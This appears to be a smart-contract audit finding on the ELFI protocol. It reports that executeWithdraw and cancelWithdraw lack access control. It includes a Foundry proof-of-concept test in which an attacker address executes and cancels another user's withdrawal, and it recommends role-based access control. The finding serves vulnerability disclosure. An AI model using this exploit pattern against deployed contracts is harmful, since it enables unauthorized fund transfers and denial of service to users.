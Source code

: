 Macho Sky Baboon

High

# Lack of Access Control in executeWithdraw and cancelWithdraw

## Summary
The functions `executeWithdraw` and `cancelWithdraw` are marked as external, allowing any address to call them. This absence of access control permits unauthorized users to execute or cancel withdrawal requests, potentially resulting in unauthorized fund transfers or denial of service attacks.
## Vulnerability Detail

## Impact

* Unauthorized Fund Transfers: Malicious actors can execute withdrawal requests they do not own, leading to unauthorized transfers of funds from the contract.
* Denial of Service: Malicious actors can cancel legitimate withdrawal requests, preventing users from accessing their funds and causing a denial of service.

## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/process/AssetsProcess.sol#L167
POC
```js
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import "../contracts/AssetsProcess.sol";
import "../contracts/mocks/MockVault.sol";
import "../contracts/mocks/MockWithdraw.sol";

contract AssetsProcessTest is Test {
    AssetsProcess assetsProcess;
    MockVault mockVault;
    MockWithdraw mockWithdraw;

    address owner = address(0x1);
    address attacker = address(0x2);
    address token = address(0x3);

    function setUp() public {
        mockVault = new MockVault();
        mockWithdraw = new MockWithdraw();
        assetsProcess = new AssetsProcess();

        vm.startPrank(owner);
        assetsProcess.createWithdrawRequest(token, 100);
        vm.stopPrank();
    }

    function testExecuteWithdrawUnauthorized() public {
        uint256 requestId = 1;

        vm.startPrank(attacker);
        assetsProcess.executeWithdraw(requestId, Withdraw.Request({
            account: owner,
            token: token,
            amount: 100
        }));
        vm.stopPrank();
    }

    function testCancelWithdrawUnauthorized() public {
        uint256 requestId = 1;

        vm.startPrank(attacker);
        assetsProcess.cancelWithdraw(requestId, Withdraw.Request({
            account: owner,
            token: token,
            amount: 100
        }), bytes32("Unauthorized"));
        vm.stopPrank();
    }
}
```
```
## Tool used

Manual Review

## Recommendation
Implement access control to restrict these functions to authorized users. Utilize role-based access control mechanisms, such as Ownable or AccessControl from OpenZeppelin.
